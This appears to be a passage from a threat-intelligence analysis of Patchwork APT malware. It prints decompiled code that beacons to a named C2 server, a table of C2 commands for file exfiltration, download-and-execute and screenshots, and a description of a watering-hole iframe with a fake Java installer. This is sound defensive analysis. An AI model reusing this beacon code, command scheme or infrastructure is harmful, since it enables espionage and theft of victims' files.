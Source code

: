 <h4>Finally send a pulse to C2 and wait for the orders to execute.</h4>

```c++
strcat(v7, "&crc=e3a6");
strcpy(&v103, "//e3e7e71a0b28b5e96cc492e636722f73//4sVKAOvu3D//BDYot0NxyG.php"); // -> add to URL C2(altered.twilightparadox.com) 
v41 = *(v39 + 1);
v10 = SendPulse(&v103, v7, v41);
v115 = 0;
memset(&v116, 0, Øx3E7u);
```

<h4>A condition switch checks the order of the C2, this can done as follows:</h4>


<table style =" margin-left: auto; margin-right: auto;">
    <tr>
        <th>Code (Hex)</th>
        <th>Command</th>
    </tr>
    <tr>
        <th>0</th>
        <th style="text-align: left">Kill switch</th>
    </tr>
    <tr>
        <th>5</th>
        <th style="text-align: left">Upload the files choosen by the attacker to the C2</th>
    </tr>
    <tr>
        <th>8</th>
        <th style="text-align: left">Download a file and execute it (from others samples, a keylogger ?)</th>
    </tr>
     <tr>
        <th>13</th>
        <th style="text-align: left">Upload form an hardcoded list of types of files to the C2 {".txt",".doc",".xls",".xlsx",".docx",".xls",".ppt",".pptx", ".pdf"}</th>
    </tr>
    <tr>
        <th>23</th>
        <th style="text-align: left">Take a screenshot</th>
    </tr>
     <tr>
        <th>33</th>
        <th style="text-align: left">Download from an URL and execute it.</th>
    </tr>
</table>

<h4>The last sample is from an iframe inserted from the homepage of the website hmfs in redirecting to dailypakistan.info for check if the victim is interesting and launch the PE file.</h4>

<center><img src="https://raw.githubusercontent.com/StrangerealIntel/CyberThreatIntel/master/Indian/APT/Patchwork/2020-07-23/Pictures/Docs/Website.png"></img></center>

<h4>This usurps the graphic style and the name of a Java installer, this drops a PE file and execute it.</h4>
